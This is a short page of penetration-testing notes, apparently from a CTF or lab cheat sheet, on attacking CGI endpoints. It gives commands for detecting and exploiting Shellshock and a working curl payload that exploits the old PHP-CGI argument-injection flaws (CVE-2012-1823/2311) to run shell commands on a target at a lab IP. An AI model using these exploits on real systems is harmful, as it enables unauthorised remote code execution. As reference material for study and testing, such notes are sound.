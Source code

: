 # CGI

## ShellShock

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/shellshock" %}

{% embed url="https://github.com/erinzm/shellshocker" %}

Nmap:

```text
nmap 10.10.10.10 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

Shellshocker example:

```text
python shellshocker.py http://10.10.10.10/cgi-bin/admin.cgi
```

## Old PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/php-cgi-exploitation" %}

Basically if cgi is active and php is "old" \(&lt;5.3.12 / &lt; 5.4.2\) you can execute code.  
In order to exploit this vulnerability, you need to access some PHP files of the web server without sending parameters \(especially without sending the character "="\).  


Then, in order to test this vulnerability, you could access for example `/index.php?-s` \(note the `-s`\) and the **source code of the application will appear in the response**.

Then, in order to obtain **RCE** you can send this special query: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` and the **PHP code** to be executed in the **body of the request.**

  
**Example:**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

\*\*\*\*

